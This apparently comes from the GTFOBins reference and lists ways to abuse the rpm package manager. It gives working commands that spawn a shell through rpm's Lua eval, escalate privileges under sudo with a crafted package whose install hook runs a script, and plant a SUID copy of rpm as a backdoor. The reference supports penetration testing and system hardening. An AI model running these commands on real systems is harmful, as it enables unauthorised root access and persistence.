 # GTFOBin: rpm

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
rpm --eval '%{lua:os.execute("/bin/sh")}'
```

```
rpm --pipe '/bin/sh 0<&1'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo rpm --eval '%{lua:os.execute("/bin/sh")}'
```

It runs commands using a specially crafted RPM package. Generate it with fpm and upload it to the target.

```
TF=$(mktemp -d)
echo 'id' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF

```

```
sudo rpm -ivh x-1.0-1.noarch.rpm
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which rpm) .

./rpm --eval '%{lua:os.execute("/bin/sh")}'
```